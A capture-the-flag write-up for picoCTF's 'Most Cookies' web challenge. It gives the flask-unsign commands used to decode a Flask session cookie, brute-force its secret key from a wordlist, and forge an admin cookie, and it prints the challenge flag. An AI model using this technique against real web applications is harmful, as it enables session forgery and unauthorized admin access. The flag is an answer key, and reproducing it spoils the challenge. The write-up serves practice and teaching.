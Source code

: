 # CTF Write-Up: [Most Cookies][Web Exploitation]

## Description
![alt text](images/image.png)

## Flag
The flag you obtained after solving the challenge. (e.g., `picoCTF{pwn_4ll_th3_cook1E5_478da04c`}

## Difficulty
- **Difficulty Level:** [medium]

## Tools Used
- `flask-unsign` 

## Write-Up

### Step 1: [Preparatory Stage]
- In the description it stated the challenge related to flask cookies. Therefore upon searching up 'flask cookies CTF' 
on Google I came across an article stating how to use `flask-unsign.` 
Source: https://github.com/Paradoxis/Flask-Unsign
- Static analysis revealed the following information:
1. ![alt text](images/image-1.png)
The secret key can be brute-forced from the list named `cookie_names`

2. ![alt text](images/image-2.png)
In order to obtain the flag we need to modify the cookie such that `session[very auth] = "admin"'
### Step 2: [Attack Phase]
- Go into inspect element then into the application tab in order to obtain the cookies.
![alt text](images/image-3.png)
- Copy and paste the cookie and use `flask-unsign --decode --cookie <cookie>`
![alt text](images/image-5.png)
- Create a `keys.txt` file consisting of the entries from the `cookie_names.` Run `flask-unsign --wordlist keys.txt --unsign --cookie <cookie> --no-literal-eval`.
![alt text](images/image-6.png)
- Use the secret key obtained to sign `{'very_auth': 'admin'}` using `flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret '<insert key found>'`
- Then we can modify the cookie field in the inspect element tab to the encrypted cookie.
![alt text](images/image-7.png)


## References
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask

